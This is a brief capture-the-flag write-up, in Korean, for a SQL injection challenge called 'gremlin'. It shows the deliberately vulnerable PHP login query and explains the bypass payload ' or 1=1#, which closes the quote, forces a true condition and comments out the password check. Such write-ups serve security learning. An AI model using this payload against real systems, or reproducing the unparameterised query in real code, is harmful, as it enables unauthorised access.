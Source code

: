 # gremlin
~~~php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
~~~

' or 1=1#이라는 SQL 구문을 사용하였다.
원래의 query문이 select id from prob_gremlin where id='' and pw=''라고 적혀 있다.
id 값을 무조건 참으로 만든 후, pw 부분을 주석 처리 하면 된다.
'(작은 따옴표)로 열려 있으므로 다시 '(작은 따옴표)로 닫은 후 or 1=1으로 만들었다. or을 기준으로 앞부분은 거짓이고 뒷부분은 참이므로 결과적으로는 무조건 참이 된다.(and가 아닌 or이기 때문에) 이후 %23(#)을 통해 주석 처리를 하면 된다.
